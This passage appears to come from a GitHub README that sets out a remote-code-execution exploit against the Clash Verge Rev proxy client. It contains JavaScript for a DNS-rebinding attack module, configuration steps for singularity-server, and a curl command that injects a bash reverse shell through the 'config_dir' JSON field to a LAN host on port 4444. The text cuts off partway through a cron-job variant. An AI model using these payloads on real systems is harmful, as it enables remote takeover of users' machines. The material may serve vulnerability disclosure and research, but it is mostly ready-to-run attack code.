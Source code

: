 ```javascript
    fetch("/start_clash", {
      method: "POST",
      headers: { 'Content-Type': 'application/json' },
      body:   BODY
    }).then(() => console.log("[Clash-True] sent"));
  }

  async function isService(headers,cookie,body){
    try {
      const r = await fetch("/version", {method:"GET"});
      const t = await r.text();
      return t.includes("Clash");
    } catch { return false; }
  }

  return {attack, isService};
};

Registry["Clash Verge Rev RCE"] = ClashVergeTrueLog();

```

Replace the PHP probe with any scripting language that supports boundary markers. If you want to get a **root shell**, refer to the next section and modify the payload.

3. Start singularity-server and configuring the Attack Panel

- `./singularity-server --HTTPServerPort 33211`
- Target Host: 0.0.0.0
- Rebinding Strategy: First then second
- Attack Method: Inline Frame

https://github.com/user-attachments/assets/72585d69-f48b-4e77-babf-be7690e7edb5

![firefox](https://github.com/user-attachments/assets/c4f8865c-8a37-4763-873f-b7d6057ac9e1)

#### Note

Note: When customize `Content-Type` to `application/json`, do not set `no-cors`. `First then second` is a slower but more stable DNS rebinding mode. You can also choose `multiple answers`, but this may be mitigated by some public DNS servers, causing the attack to fail.

## Reverse Shell(LAN)

MacOS and some Linux systems (e.g. Kali) have `zsh` installed, which allows scripts to be executed with `-d` and `-f`. 

```bash
curl --proxy http://192.168.108.129:7897 -XPOST http://127.0.0.1:33211/start_clash \
  -H "Content-Type: application/json" \
  -d @- << 'EOF'
{
  "bin_path":   "/bin/echo",
  "config_dir": ";bash -c 'bash -i >& /dev/tcp/192.168.108.129/4444 0>&1';",
  "config_file":"/dev/null",
  "log_file":   "/tmp/rce_file"
}
EOF

# OR SET UP A CRON JOB
curl --proxy http://192.168.108.129:7897 -XPOST http://127.0.0.1:33211/start_clash \
  -H "Content-Type: application/json" \
  -d @- << 'EOF'
{
  "bin_path":   "/bin/echo",
```